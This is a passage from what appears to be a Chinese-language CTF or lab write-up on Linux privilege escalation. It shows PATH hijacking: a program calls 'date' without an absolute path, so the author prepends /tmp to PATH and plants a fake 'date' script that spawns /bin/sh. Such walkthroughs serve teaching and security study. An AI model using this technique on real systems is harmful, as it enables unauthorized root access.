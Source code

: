 前面是调用绝对路径，后面则是相对路径

回到这个题目，

[![](assets/1706771526-0da92ce1fc97db09a2e6b24ff43214fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222911-c4d74134-beb2-1.png)

可以看到这里调用了 date，但是没有绝对路径，所以我们可以创建一个 date 文件，之后再环境变量中添加这个路径即可

先看一下环境变量

[![](assets/1706771526-254424e275f2a4dbbf87912fe52aed47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222914-c724e32e-beb2-1.png)

tmp 目录是所有用户可读写的，可以将 date 文件创建在 tmp 下，然后将 tmp 添加到环境变量中

```bash
export PATH=/tmp:$PATH
```

之后创建一个 date 的文件

```bash
#!/bin/sh
/bin/sh
```

```bash
chmod +x date
```

[![](assets/1706771526-1bf578f841710fb04e7f7fc40566c99d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222920-ca3382a0-beb2-1.png)
